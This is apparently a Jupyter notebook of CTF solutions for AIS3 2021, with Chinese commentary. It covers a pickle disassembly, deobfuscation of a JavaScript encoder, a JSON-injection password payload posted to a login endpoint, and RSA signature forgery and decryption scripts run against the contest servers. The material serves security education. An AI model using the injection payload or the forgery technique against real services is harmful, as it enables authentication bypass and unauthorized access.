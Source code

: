 # {
 "cells": [
  {
   "cell_type": "markdown",
   "id": "b550fa47",
   "metadata": {},
   "source": [
    "# AIS3 2021"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "1df4d234",
   "metadata": {},
   "source": [
    "## Peekora"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "16ede36b",
   "metadata": {},
   "source": [
    "執行 `python -m pickletools flag_checker.pkl` \\\n",
    "得到\n",
    "```pickle\n",
    "    0: c    GLOBAL     '__builtin__ input'\n",
    "   19: (    MARK\n",
    "   20: S        STRING     'FLAG: '\n",
    "   30: t        TUPLE      (MARK at 19)\n",
    "   31: R    REDUCE\n",
    "   32: p    PUT        0\n",
    "   35: 0    POP\n",
    "   ︙\n",
    "  888: c    GLOBAL     '__builtin__ print'\n",
    "  907: (    MARK\n",
    "  908: S        STRING     'Correct!'\n",
    "  920: t        TUPLE      (MARK at 907)\n",
    "  921: R    REDUCE\n",
    "  922: .    STOP\n",
    "```\n",
    "大致等同執行 `In[1]`"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 1,
   "id": "17ada1ab",
   "metadata": {},
   "outputs": [
    {
     "name": "stdout",
     "output_type": "stream",
     "text": [
      "FLAG: AIS3{dAmwjzphIj}\n",
      "Correct!\n"
     ]
    }
   ],
   "source": [
    "m = {}\n",
    "m[0] = input('FLAG: ')\n",
    "m[1] = getattr\n",
    "m[2] = [exit, str]\n",
    "(str if m[0].startswith('AIS3{') else exit)()\n",
    "(str if m[0].endswith('}') else exit)()\n",
    "(str if m[0].endswith('}') else exit)()\n",
    "(str if m[0][6] == 'A' else exit)()\n",
    "(str if m[0][9] == 'j' else exit)()\n",
    "m[3] = m[0][9]\n",
    "(str if m[0][11] == 'p' else exit)()\n",
    "(str if m[0][14] == m[3] else exit)()\n",
    "m[4] = m[0][1]\n",
    "(str if m[0][5] == 'd' else exit)()\n",
    "(str if m[0][10] == 'z' else exit)()\n",
    "(str if m[0][12] == 'h' else exit)()\n",
    "(str if m[4] == m[0][13] else exit)()\n",
    "(str if m[0][8] == 'w' else exit)()\n",
    "(str if m[0][7] == 'm' else exit)()\n",
    "\"\"\"AIS3{dAmwjzphIj}\"\"\"\n",
    "print('Correct!')"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "3c61d39f",
   "metadata": {},
   "source": [
    "[![](https://i1.ytimg.com/vi/5HIAbc0cqx0/sd3.jpg)](https://youtu.be/5HIAbc0cqx0)"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "70053600",
   "metadata": {},
   "source": [
    "## COLORS"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "364eb48e",
   "metadata": {},
   "source": [
    "先做 Pretty-Print \\\n",
    "發現指令觸發的最後一步，輸出 Encoded Flag\n",
    "```js\n",
    "document[_0x12b963(0x1e2)]('output')[_0x12b963(0x1d1)] = atob(_0x78ed5a)[_0x12b963(0x1e4)](/(.{1,3})/g)[_0x12b963(0x1e1)](_0x5efa9e=>_0x9f530c(_0x5efa9e[0x0], _0x5efa9e[0x1], _0x5efa9e[0x2]))[_0x12b963(0x1dd)]('')\n",
    "\n",
    "```\n",
    "以 `atob(_0x78ed5a)` 每 3 Char 一組，每組作為 EncodedFlagChar Element 的 Parameter"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "3d344396",
   "metadata": {},
   "source": [
    "### Remark 1\n",
    "`_0x9f530c` 功能是 Generate String of EncodedFlagChar Element \\\n",
    "`_0x9f530c(class1: str, class2: str, textContent: str) -> str`\n",
    "\n",
    "`atob(_0x78ed5a) == '40B20g30i51J60601\\\\30w40130A41j40\\\\41130g70u30i10k30l40760x50i50X10K10I40h50X00K41i51l70670f40o10650570K11n51870741B50-11840w31a10r41z70K30=20=10='`\n"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "db4fb8c0",
   "metadata": {},
   "source": [
    "### Encoding Function\n",
    "```js\n",
    "function _0xce93(_0x1b497a) {\n",
    "    const _0x9fe181 = _0x1cd51f;\n",
    "    if (!_0x1b497a[_0x9fe181(0x1d0)])\n",
    "        return '';\n",
    "    let _0x4d62de = ''\n",
    "      , _0x23f867 = ''\n",
    "      , _0x5395cb = 0x0;\n",
    "    for (let _0x6e40b4 = 0x0; _0x6e40b4 < _0x1b497a[_0x9fe181(0x1d0)]; _0x6e40b4++)\n",
    "        _0x4d62de += _0x1b497a[_0x9fe181(0x1dc)](_0x6e40b4)['toString'](0x2)[_0x9fe181(0x1c6)](0x8, '0');\n",
    "    _0x5395cb = _0x4d62de[_0x9fe181(0x1d0)] % _0x317b6e / 0x2 - 0x1;\n",
    "    if (_0x5395cb != -0x1)\n",
    "        _0x4d62de += '0'[_0x9fe181(0x1c8)](_0x317b6e - _0x4d62de[_0x9fe181(0x1d0)] % _0x317b6e);\n",
    "    _0x4d62de = _0x4d62de[_0x9fe181(0x1e4)](/(.{1,10})/g);\n",
    "    for (let _0x13c6bb of _0x4d62de) {\n",
    "        let _0x192141 = parseInt(_0x13c6bb, 0x2);\n",
    "        _0x23f867 += _0x9f530c(_0x192141 >> 0x6 & 0x7, _0x192141 >> 0x9, atob(_0x24fcac)[_0x192141 & 0x3f]);\n",
    "    }\n",
    "    for (; _0x5395cb > 0x0; _0x5395cb--) {\n",
    "        _0x23f867 += _0x9f530c(_0x5395cb % _0x2a3765, 0x0, '=');\n",
    "    }\n",
    "    return _0x23f867;\n",
    "}\n",
    "```\n",
    "對於輸入 `_0x1b497a: str`，將每個 Char 轉換成 `8 bit`，再 `10 bit` 一組 \\\n",
    "將 `byte of 10 bit` 拆成三個 Parameter，生成 EncodedFlagChar Element \\\n",
    "`_0x9f530c(class1=byte[6:9], class2=byte[9], textContent=atob(_0x24fcac)[byte[0:6]])`"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "723fa517",
   "metadata": {},
   "source": [
    "### Remark 2\n",
    "雖然 `_0x5395cb` 於解 flag 並不至關重要，不過可以計算得到 `len(_0x1b497a) % 5 == 5 + ~_0x5395cb % 5`\n",
    "\n",
    "`atob(_0x24fcac) == 'AlS3{BasE64_i5+b0rNIng~\\\\Qwo/-xH8WzCj7vFD2eyVktqOL1GhKYufmZdJpX9}'`"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 2,
   "id": "e182180e",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/html": [
       "<script src=\"http://quiz.ais3.org:8888/encode.js\"></script>\n"
      ],
      "text/plain": [
       "<IPython.core.display.HTML object>"
      ]
     },
     "metadata": {},
     "output_type": "display_data"
    }
   ],
   "source": [
    "%%HTML\n",
    "<script src=\"http://quiz.ais3.org:8888/encode.js\"></script>"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 3,
   "id": "9dadde24",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "application/javascript": [
       "let _0x78ed5a = _0x4ebd(0x1ca)\n",
       "let _0x24fcac = _0x4ebd(0x1d4)\n",
       "IPython.notebook.kernel.execute(`encoded=${JSON.stringify(atob(_0x78ed5a))}`)\n",
       "IPython.notebook.kernel.execute(`to_bit_0_5=${JSON.stringify(atob(_0x24fcac))}`)\n"
      ],
      "text/plain": [
       "<IPython.core.display.Javascript object>"
      ]
     },
     "metadata": {},
     "output_type": "display_data"
    }
   ],
   "source": [
    "%%javascript\n",
    "let _0x78ed5a = _0x4ebd(0x1ca)\n",
    "let _0x24fcac = _0x4ebd(0x1d4)\n",
    "IPython.notebook.kernel.execute(`encoded=${JSON.stringify(atob(_0x78ed5a))}`)\n",
    "IPython.notebook.kernel.execute(`to_bit_0_5=${JSON.stringify(atob(_0x24fcac))}`)"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 4,
   "id": "a456109e",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/plain": [
       "'40B20g30i51J60601\\\\30w40130A41j40\\\\41130g70u30i10k30l40760x50i50X10K10I40h50X00K41i51l70670f40o10650570K11n51870741B50-11840w31a10r41z70K30=20=10='"
      ]
     },
     "execution_count": 4,
     "metadata": {},
     "output_type": "execute_result"
    }
   ],
   "source": [
    "encoded"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 5,
   "id": "7d1e883b",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/plain": [
       "'AlS3{BasE64_i5+b0rNIng~\\\\Qwo/-xH8WzCj7vFD2eyVktqOL1GhKYufmZdJpX9}'"
      ]
     },
     "execution_count": 5,
     "metadata": {},
     "output_type": "execute_result"
    }
   ],
   "source": [
    "to_bit_0_5"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 6,
   "id": "a30291ea",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/plain": [
       "'AIS3{base1024_15_c0l0RFuL_GAM3_CL3Ar_thIS_IS_y0Ur_FlaG!}'"
      ]
     },
     "execution_count": 6,
     "metadata": {},
     "output_type": "execute_result"
    }
   ],
   "source": [
    "bit_0_5 = encoded[2::3][:-3]\n",
    "bit_6_7 = encoded[0::3][:-3]\n",
    "bit_9 = encoded[1::3][:-3]\n",
    "\n",
    "bit_0_5 = map(to_bit_0_5.index, bit_0_5)\n",
    "bit_6_7 = map(int, bit_6_7)\n",
    "bit_9 = map(int, bit_9)\n",
    "\n",
    "bytes_of_10bit = (a | b << 6 | c << 9 for a, b, c in zip(bit_0_5, bit_6_7, bit_9))\n",
    "bits = ''.join(f'{byte:010b}' for byte in bytes_of_10bit)\n",
    "bytes_of_8bit = (bits[i:i+8] for i in range(0, len(bits)-8, 8))\n",
    "''.join(chr(int(byte, 2)) for byte in bytes_of_8bit)"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "9767c9bd",
   "metadata": {},
   "source": [
    "## ⲩⲉⲧ ⲁⲛⲟⲧⲏⲉꞅ 𝓵ⲟ𝓰ⲓⲛ ⲣⲁ𝓰ⲉ"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "dd4ec684",
   "metadata": {},
   "source": [
    "`Username = ''`\n",
    "\n",
    "`Password = '\",\"password\":null,\"showflag\":true,\"\":\"'`"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 7,
   "id": "58494ea9",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/plain": [
       "'AIS3{/r/badUIbattles?!?!}'"
      ]
     },
     "execution_count": 7,
     "metadata": {},
     "output_type": "execute_result"
    }
   ],
   "source": [
    "import requests\n",
    "data  = {'username': '', 'password': '\",\"password\":null,\"showflag\":true,\"\":\"'}\n",
    "url = 'http://quiz.ais3.org:8002/login'\n",
    "requests.post(url, data=data).text"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "9b7d93b8",
   "metadata": {},
   "source": [
    "## ReSident evil villAge"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "a0525064",
   "metadata": {},
   "source": [
    "令 `t == bytes_to_long(b'Ethan Winters')` \\\n",
    "Server 要求輸入 `sig` 使得 $sig^e = t$ in $\\mathbb Z_n$ \\\n",
    "可以從 Sevrer 得到 $sig^d\\ \\forall sig \\neq t$ in $\\mathbb Z_n$ \\\n",
    "如果可以找到 $a b = t$，則 $(a^d b^d)^e = t$ in $\\mathbb Z_n$"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 8,
   "id": "15ee180d",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/plain": [
       "'AIS3{R3M383R_70_HAsh_7h3_M3Ssa93_83F0r3_S19N1N9}'"
      ]
     },
     "execution_count": 8,
     "metadata": {},
     "output_type": "execute_result"
    }
   ],
   "source": [
    "import sympy as sp\n",
    "import re\n",
    "from pwnlib.tubes.remote import remote\n",
    "\n",
    "def server_generator():\n",
    "    with remote('quiz.ais3.org', 42069) as r:\n",
    "        for privkey in re.findall(r'. = (\\d+)', r.recvS()):\n",
    "            msg = yield int(privkey)\n",
    "        for _ in range(2):\n",
    "            r.writeline('1')\n",
    "            r.recv()\n",
    "            r.writeline(msg)\n",
    "            msg = yield int(r.recvS().split()[1])\n",
    "        r.writeline('2')\n",
    "        r.recv()\n",
    "        r.writeline(msg)\n",
    "        yield r.recvS().split()[0]\n",
    "        \n",
    "server = server_generator()\n",
    "\n",
    "t = int.from_bytes(b'Ethan Winters', 'big')\n",
    "a, b = sp.factorint(t)\n",
    "\n",
    "n = server.send(None)\n",
    "e = server.send(None)\n",
    "a_d = server.send(f'{a:x}')\n",
    "b_d = server.send(f'{b:x}')\n",
    "t_d = a_d * b_d % n\n",
    "server.send(str(t_d))"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "0f7f9ce4",
   "metadata": {},
   "source": [
    "## Republic of South Africa"
   ]
  },
  {
   "cell_type": "markdown",
   "id": "aca7ebed",
   "metadata": {},
   "source": [
    "由[如何從碰撞過程求圓周率π？壹個奇妙的物理、代數、幾何結合問題](https://youtu.be/Un7mK05b9oA)，可得到 `count`"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 9,
   "id": "2272c462",
   "metadata": {},
   "outputs": [],
   "source": [
    "n = 23662270311503602529211462628663973377651035055221337186547659666520360329842954292759496973737109678655075242892199643594552737098393308599593056828393773327639809644570618472781338585802514939812387999523164606025662379300143159103239039862833152034195535186138249963826772564309026532268561022599227047\n",
    "e = 65537\n",
    "c = 11458615427536252698065643586706850515055080432343893818398610010478579108516179388166781637371605857508073447120074461777733767824330662610330121174203247272860627922171793234818603728793293847713278049996058754527159158251083995933600335482394024095666411743953262490304176144151437205651312338816540536"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": 10,
   "id": "fe372708",
   "metadata": {},
   "outputs": [
    {
     "data": {
      "text/plain": [
       "b'AIS3{https://www.youtube.com/watch?v=jsYwFizhncE}'"
      ]
     },
     "execution_count": 10,
     "metadata": {},
     "output_type": "execute_result"
    }
   ],
   "source": [
    "import sympy as sp\n",
    "count = int(sp.pi * 10 ** 152)\n",
    "r = n - count + 1\n",
    "d = pow(e, -1, r)\n",
    "f = pow(c, d, n)\n",
    "f.to_bytes(f.bit_length() // 8 + 1, 'big')"
   ]
  },
  {
   "cell_type": "code",
   "execution_count": null,
   "id": "9660c743",
   "metadata": {},
   "outputs": [],
   "source": []
  }
 ],
 "metadata": {
  "kernelspec": {
   "display_name": "Python 3",
   "language": "python",
   "name": "python3"
  },
  "language_info": {
   "codemirror_mode": {
    "name": "ipython",
    "version": 3
   },
   "file_extension": ".py",
   "mimetype": "text/x-python",
   "name": "python",
   "nbconvert_exporter": "python",
   "pygments_lexer": "ipython3",
   "version": "3.8.8"
  }
 },
 "nbformat": 4,
 "nbformat_minor": 5
}
